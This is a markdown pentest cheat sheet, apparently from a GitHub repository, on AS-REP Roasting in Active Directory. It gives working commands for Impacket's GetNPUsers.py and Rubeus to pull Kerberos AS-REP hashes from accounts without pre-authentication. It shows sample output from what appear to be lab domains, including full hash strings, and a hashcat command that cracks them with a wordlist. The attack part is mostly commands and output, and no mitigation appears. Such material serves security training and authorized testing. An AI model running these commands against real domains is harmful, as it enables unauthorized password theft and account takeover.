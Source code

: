 **AS-REP Roasting**

Is the technique that enables the attacker to retrieve password hashes for AD users whose account options have been set to "**Do not require Kerberos pre-authentication"**. This option relies on the old Kerberos authentication protocol, which allows authentication without a password. Once we obtain the hashes, we can try to crack it offline, and finally, if it is crackable, we got a password!

![81bf1dad6425f8f06b0026f4e748f193](https://github.com/user-attachments/assets/2ccdf90a-420f-45dd-8c55-8f1142276804)


**First method**


We should do some recon to obtain the AD users and collect them in a file ```users.txt```:
```
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```
 ```
GetNPUsers.py -dc-ip <DomainController_IP> <domain name>/<user> -usersfile <path_to_users_file>
#OR
GetNPUsers.py <domain name>/ -no-pass -usersfile <path_to_users_file>  #if we have no creds
```
**ex**
```
GetNPUsers.py -dc-ip 10.10.73.127 thm.red/thm -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sshd doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:269af6bae34fa24f66669f64454eb290$95c86c6aad2085a6f0263c92587a1bee24d04e13e74e5c510d7b17287ce772553f28f5fe1306cda7ba06db1c0fede4c09c8e3e8fec0bebfd85c47ded661f54c686216c296ae99d6b389eaa7bbb1b12b85347fee45574d39a4ca2e5f157bb732472d4614787e4204ac82adcee530d4a6a9ab2da7775d06922f8650468826c329bbf4e86c9f6be04d5ff54790a098a09bbc2500659c834c96e4a90ba6e042855eaa1672645f8620abea4f7fb43322624c6950b990fc247f08be8a098adf9920e22c5f7310fe7b710def9b071472c2440629bedc226dc6fadff2e20727bc467e543f6c8
[-] User CREDS-HARVESTIN$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```


The ```GetNPUsers.py``` is used to request Kerberos **TGTs** for user accounts that have the **"Do not require Kerberos preauthentication"**

<br>

**Second method**

```
Rubeus.exe asreproast /nowrap
```
the output will look like this:
```
[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b5c8:9b6f:25dc:5bf6%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:AF01B8AF2BA0C81C0D438ACB15A2B476$F766A68EF45E9C5924B096B5B4B0916366763EA31A6301E8DD511ACA336D7E162F29D6703BE0489410EBAB6E2A94EC416F1CA0DBA2B71A42C35BB0D1113E07B81D5D8662BF8CE1BAD89B9B408AFFDD531F0C401101937F1C5E2526E44194BF8CDC1ACB18623D52B19E30AA1D14C15E97FB6B329B92726AC394E0373C090B4C32C1D1CEBA3014BF5B0126F3C014BD1CDED856EC99C26F5566C66488C355BA49E572D445C88C583CCBF7686514297ABCB546FA2C18D15CAC4459235D798A3950C88C3369ABF2991AAF5EAB9D2C03792108F328EC65358427D86E5C595E7F5CB61828EABA0A99FA33F0241C51607BB14F1F415EA655
```
**Cracking the AS-REP Hash:**

To crack the AS-REP hash, you can use Hashcat with the following command:
```
hashcat -m 18200 hash.txt /path/to/rockyou.txt
```





























